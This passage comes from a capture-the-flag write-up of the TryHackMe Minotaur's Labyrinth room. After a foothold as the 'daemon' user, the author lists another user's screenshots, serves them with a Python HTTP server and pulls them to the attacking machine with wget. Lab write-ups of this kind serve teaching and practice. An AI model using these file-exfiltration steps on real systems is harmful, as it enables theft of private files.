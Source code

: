 Found MySQL credentials!

In `minotaur`'s `pictures` directory, there are some screenshots:

```
daemon@labyrinth:/home/minotaur/Pictures$ ls -lah
[...]
-rw-rw-r--  1 minotaur minotaur 131K szept 13  2021 'Screenshot from 2021-09-13 21-20-37.png'
-rw-rw-r--  1 minotaur minotaur 149K szept 13  2021 'Screenshot from 2021-09-13 21-46-44.png'
-rw-rw-r--  1 minotaur minotaur  86K szept 22  2021 'Screenshot from 2021-09-22 12-46-44.png'
-rw-rw-r--  1 minotaur minotaur  67K okt   26  2021 'Screenshot from 2021-10-26 15-41-08.png'
```

Let's transfer them!

```
daemon@labyrinth:/home/minotaur/Pictures$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

┌──(root🌸siunam)-[~/ctf/thm/ctf/Minotaur's_Labyrinth]
└─# wget http://$RHOSTS:8000/'Screenshot from 2021-09-13 21-20-37.png'

┌──(root🌸siunam)-[~/ctf/thm/ctf/Minotaur's_Labyrinth]
└─# wget http://$RHOSTS:8000/'Screenshot from 2021-09-13 21-46-44.png'

┌──(root🌸siunam)-[~/ctf/thm/ctf/Minotaur's_Labyrinth]
└─# wget http://$RHOSTS:8000/'Screenshot from 2021-09-22 12-46-44.png'

┌──(root🌸siunam)-[~/ctf/thm/ctf/Minotaur's_Labyrinth]
└─# wget http://$RHOSTS:8000/'Screenshot from 2021-10-26 15-41-08.png'
```

**Screenshot from 2021-09-13 21-20-37.png:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Minotaur's-Labyrinth/images/screenshot1.png)
